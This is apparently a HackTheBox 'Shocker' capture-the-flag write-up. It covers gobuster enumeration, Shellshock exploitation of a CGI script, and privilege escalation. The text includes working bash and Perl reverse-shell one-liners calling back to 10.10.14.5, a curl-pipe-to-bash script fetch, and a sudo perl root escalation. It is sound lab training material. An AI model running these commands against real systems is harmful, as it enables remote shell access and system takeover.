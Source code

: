 # HackTheBox Shocker Writeup

![date](https://img.shields.io/badge/date-02.20.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution

### gobuster scan

Use -s flag to get specified error code.
    > gobuster -u http://10.10.10.56 -w /usr/share/wordlists/dirb/small.txt -s 200,204,301,302,304,403 
    > gobuster -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 200,203,301,302,304,403 -x sh,pl
    
Go to http://10.10.10.56/cgi-bin/user.sh

### ShellShock Exploit

#### Use shellshoch nmap script to scan target.
Make Burp listen on port 8081, and redirect any traffic from 10.10.10.56 to localhost.

    > nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1

#### ShellShock script may not work, so you need to modify the script to make it work.

    > vim /usr/share/nmap/scripts/http-shellshock.nse

### Reverse shell cheat sheet.

    > nc -lvnp 4444
    > bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
    > python -c 'import pty;pty.spawn("/bin/bash")'

### LinEnum 
    > python -m SimpleHTTPServer 8080
    > curl 10.10.14.5:8080/LinEnum.sh | bash
    > cd /dev/shm
    > /usr/bin/perl -e 'use Socket;$i="10.10.14.5";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    > sudo /usr/bin/perl -e 'exec("/bin/bash")'
    > nc -lvnp 4445
    
## Root Flag
    
    
